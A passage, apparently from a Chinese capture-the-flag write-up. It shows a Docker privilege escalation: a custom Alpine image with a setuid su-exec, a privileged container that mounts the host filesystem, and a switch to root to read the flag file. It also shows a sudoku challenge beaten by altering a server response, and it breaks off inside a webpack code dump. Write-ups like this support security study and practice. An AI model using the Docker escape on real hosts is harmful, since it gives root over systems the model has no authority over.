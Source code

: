 其实最主要的还是要进到 /tmp 或 tmpfs下，不然会传不上去

先在本地手动构建一个镜像

```dockerfile
FROM docker.io/library/alpine:latest

RUN apk add su-exec && chmod +s /sbin/su-exec
```

本地导出后上传到环境中， 使用 `sudo docker image load` 导入，执行以下命令即可得到 flag

```shell
docker run --rm -u 1000:1000 -it --privileged -v /:/mnt:ro alpine  
exec su-exec root /bin/ash
cat /mnt/flag
```

### 零知识数独

只会个第一问，简单粗暴的修改响应包然后就能拿到 香香软软的 flag

```
'use strict';
(self.webpackChunk_N_E = self.webpackChunk_N_E || []).push([
  [83],
  {
    5019: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.BASE_LAYOUT = void 0),
        (i.BASE_LAYOUT = [
          [0, 1, 2, 3, 4, 5, 6, 7, 8],
          [9, 10, 11, 12, 13, 14, 15, 16, 17],
          [18, 19, 20, 21, 22, 23, 24, 25, 26],
          [27, 28, 29, 30, 31, 32, 33, 34, 35],
          [36, 37, 38, 39, 40, 41, 42, 43, 44],
          [45, 46, 47, 48, 49, 50, 51, 52, 53],
          [54, 55, 56, 57, 58, 59, 60, 61, 62],
          [63, 64, 65, 66, 67, 68, 69, 70, 71],
          [72, 73, 74, 75, 76, 77, 78, 79, 80],
        ]);
    },
    2042: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.DIFFICULTY_LEVELS = void 0),
        (i.DIFFICULTY_LEVELS = ['easy', 'medium', 'hard', 'expert']);
    },
    5180: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.SEEDS = void 0),
        (i.SEEDS = [
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'easy',
          },
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'medium',
          },
          {
            puzzle:
```